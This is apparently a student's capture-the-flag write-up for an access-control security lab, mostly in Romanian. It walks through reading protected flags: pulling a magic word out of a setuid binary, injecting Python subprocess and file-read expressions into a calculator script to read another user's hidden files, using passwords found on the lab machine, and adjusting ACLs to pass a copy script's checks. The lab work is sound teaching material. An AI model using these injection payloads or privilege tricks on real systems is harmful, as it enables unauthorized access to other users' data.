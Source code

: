 # Lab 5 Access Control

## Task 1
 
* **_Flag 1_**

... there is a flag in there... yeah right ... literally, a "flag"

```bash
cat /etc/secret/flag
# ISC{y1Z33}
```
* **_Flag 2_**

i have no idea for this one

* **_Flag 3_**

din hacker (numai el are permisiune de read in afara de root)
```shell
# sus
readelf -a /usr/local/bin/giff-me-flag | grep FLAG
# 0x000000006ffffffb (FLAGS_1)            Flags: NOW PIE

strings /usr/local/bin/giff-me-flag
# apar niste fraze printre care si secventa
# What do you say?
# PLEASE!!!11oneone   ----- yesss this is it!!!!!!!!
# Wrong answer!
# /etc/secret/.hahah/.y0u_c4nt_gu355_th1s
# Okay, here's your flag: %s
# 
```

din decanu sau mihai (orice in afara de hacker ca sa se duca pe other, ca numai ei au permisiune de execute)

```bash
$ giff-me-flag PLEASE!!!11oneone
# Okay, here's your flag: ISC{4lw4ys_s4y_m4g1c_w0rd}
# e flagul ascuns in /etc/secret
```


## Task2

userul *mihai* are parola hunter2

```bash
$ tree /home/
```
La userul *rekt0r* avem un tutorial

    tldr *decanu* poate folosi sudo in locul lui *rekt0r* ca sa execute script ul cu  read...

La *decanu* avem un folder ascuns cu parola [xaX4xaxa4444]

La *t4l3nt* avem un fisier ascuns cu flags - nvm e pt taskul 4



Nu mai am alte idei :(


## Task 3

* dezactivam "testing" mode ca sa rulam comanda de python, nu math.pi 
```bash
$ mv /tmp/.TEST_MODE_ENABLED /tmp/.TEST_MODE_DISABLED
# scriptul verifica daca exista fisierul si suprascrie expresia de python daca exista
```

* incercam sa aflam continutul directorului cu python (si chatGPT :P)
```bash
$ ./sant_calculator "'\n'.join(__import__('subprocess').check_output(['ls', '/home/t4l
3nt/.flags']).decode().splitlines())"
# hehe found it
# izitthis.txt
# no_thiz.txt
# whereisflagz0rx.txt
```

* afisam continutul fisierelor
```bash
$ ./sant_calculator "open('/home/t4l3nt/.flags/izitthis.txt', 'r').read()"
# TZAEAPA
# hmm hmmm ... fine

$ ./sant_calculator "open('/home/t4l3nt/.flags/no_thiz.txt', 'r').read()"
# NOT HERE
# it's not funny anymore

$ ./sant_calculator "open('/home/t4l3nt/.flags/whereisflagz0rx.txt', 'r').read()"
# ISC(su1d_vs_pyth0n_w1nz)
# intr-un final...
```

## Task 4

```bash
$ su student
# parola e student ofc :P
$ strings /usr/local/bin/copy-the-flags
# !/bin/bash
# set -e
# umask 000
# DEST=/home/student/givemeflagz
# su -c 'ls -l /home/student/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 1; }
# ! su -c 'ls -l '$DEST'/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 2; }
# ! su -c 'ls -l '$DEST'/' an0th3r0n3 >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 3; }
# su -c 'bash -c "umask 000; cp -f /home/flagz0wner/lastflag1.txt '$DEST'/"' flagz0wner || { echo 'Copy 1 failed!'; exit 4; }
# echo "First flag successfully copied!"
# DEST=/home/student/givemeflagz/second
# ! su -c 'ls -l '$DEST'/' flagz0wner >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 5; }
# su -c 'bash -c "umask 006; mkdir -p "'$DEST'"; umask 000; cat /home/flagz0wner/lastflag2.txt > '$DEST'/lastflag2.txt"' flagz0wner || { echo 'Copy 2 failed!'; exit 6; }
# echo "Second flag successfully copied!"

$ cd ~
$ mkdir givemeflagz
$ chmod og-rw givemeflagz/
# scoate permisiunile de read pt categoria others ca sa treaca de testul 2 si 3
# cred ca ajunge sa scoti si doar read
$ setfacl  -m  u:flagz0wner:7  givemeflagz/
# acorda permisiuni numai lui flagz0wner 
$ copy-t3h-fl4gz
$ ls -al givemeflagz/
$ cat givemeflagz/lastflag1.txt
# ISC{almost_there_hang_on}
$ cat second/lastflag2.txt
# second este un folder pe care avem numai drept de execute => blind guessed numele dupa formatul primului flag
# hope it works
# anddddd Yesssss it works!!!!!
# ISC{gg_ok_no_more_leet_speak}
```